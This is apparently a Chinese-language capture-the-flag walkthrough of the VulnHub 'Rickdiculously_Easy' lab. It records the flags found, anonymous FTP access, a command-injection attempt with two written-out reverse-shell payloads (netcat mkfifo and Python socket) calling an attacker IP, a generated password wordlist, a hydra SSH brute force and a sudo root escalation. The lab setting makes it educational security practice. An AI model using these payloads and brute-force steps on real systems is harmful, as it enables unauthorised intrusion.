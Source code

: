 ```yaml
---
layout: post
title:  "vulnhub >_ Rickdiculously_Easy"
description: walkthrough
category: vulnhub
---
```

# Rickdiculously_Easy

![image-20200716014424811]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716014424811.png)

![image-20200716014826073]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716014826073.png)

`FLAG:{TheyFoundMyBackDoorMorty}-10Points`

![image-20200719220716779]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719220716779.png)

`FLAG:{TheyFoundMyBackDoorMorty}-10Points`

![image-20200719220849143]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719220849143.png)

`FLAG{Flip the pickle Morty!} - 10 Points`



ftp可匿名登录

![image-20200716015159949]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716015159949.png)

pub文件夹下为空

`FLAG{Whoa this is unexpected} - 10 Points`

![image-20200716021056938]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021056938.png)

![image-20200716021025193]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021025193.png)

![image-20200716021125341]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021125341.png)

`FLAG{Yeah d- just don't do it.} - 10 Points`

![image-20200716021233642]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021233642.png)

![image-20200716021313449]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021313449.png)

```
Password:winter
```

![image-20200716021837588]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021837588.png)

![image-20200716021900523]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021900523.png)

![image-20200716022912544]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716022912544.png)

![image-20200716024517223]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716024517223.png)

![image-20200716024539575]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716024539575.png)

看来可以尝试命令注入

![image-20200716031647637]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716031647637.png)

简单的命令注入



```bash
192.168.43.27;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.93 1337 >/tmp/f

192.168.43.27;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.97",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

但是尝试了一些并不能执行。而我们有一个密码，我们可以先看一下home，确认我们拥有的用户。查看不了，尝试查看passwd

cat并不能正常查看

![image-20200716034004356]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716034004356.png)

使用less

![image-20200716034139683]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716034139683.png)

经过尝试最终Summer能够使用这个密码进入

```bash
Summer:winter
```



```bash
ssh Summer@192.168.43.27 -p 22222
```



![image-20200716034417522]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716034417522.png)

![image-20200716035014944]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035014944.png)

我们之前使用cat也是显示一只猫，所以应该是cat被替换了。仍然使用less

![image-20200716035506012]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035506012.png)

`FLAG{Get off the high road Summer!} - 10 Points`

![image-20200716035909914]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035909914.png)

![image-20200716035955111]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035955111.png)

![image-20200716040105779]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716040105779.png)

密码有乱码混杂，应该是exif信息中含有密码，传回kali

```bash
scp -P 22222 Summer@192.168.43.27:/home/Morty/Safe_Password.jpg ./
```

![image-20200716040714802]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716040714802.png)

![image-20200716041002433]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041002433.png)

```bash
Meeseek
```

将压缩文件传回本机

![image-20200716041251640]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041251640.png)

使用密码解压

![image-20200716041352957]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041352957.png)

![image-20200716041427512]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041427512.png)

`FLAG: {131333} - 20 Points`



![image-20200719222043419]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222043419.png)

找到一个可执行文件

![image-20200719222127896]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222127896.png)

![image-20200719222202969]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222202969.png)

不能在当前目录执行。

![image-20200719222255980]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222255980.png)

![image-20200719222901339]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222901339.png)

传回本地strings一下

![image-20200719223612858]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719223612858.png)

%d，deCRYPT %30,后面的字段应该是`ahah ah aguments`

然后在另外的目录下发现

![image-20200719225125939]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719225125939.png)

![image-20200716035330583]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035330583.png)

not a flag.那flag就有可能是参数

尝试使用flag中的内容作为参数。

![image-20200719223130857]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719223130857.png)

`FLAG{And Awwwaaaaayyyy we Go!} - 20 Points`

提供了rick的密码的一些提示，在google上搜索了一下，相关乐队的名字是和The Flesh Curtauns

按照提示密码拥有1个大写字母，1个数字。在加上The ，或Flesh，或者Curtauns。

写一个脚本来生成一个字典

```python
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "The"
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```



```bash
python mkpasswd.py > passwords.txt
```

再使用这个字典爆破ssh

```
hydra -s 22222 -v -l RickSanchez -P passwords.txt 192.168.43.27 ssh
```

![image-20200720020257492]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200720020257492.png)

```bash
RickSanchez:P7Curtains
```

登录ssh

![image-20200720015925102]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200720015925102.png)

sudo -l直接发现可以直接提权，sudo su 提权，查看flag

![image-20200720020216891]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200720020216891.png)

`FLAG: {Ionic Defibrillator} - 30 points`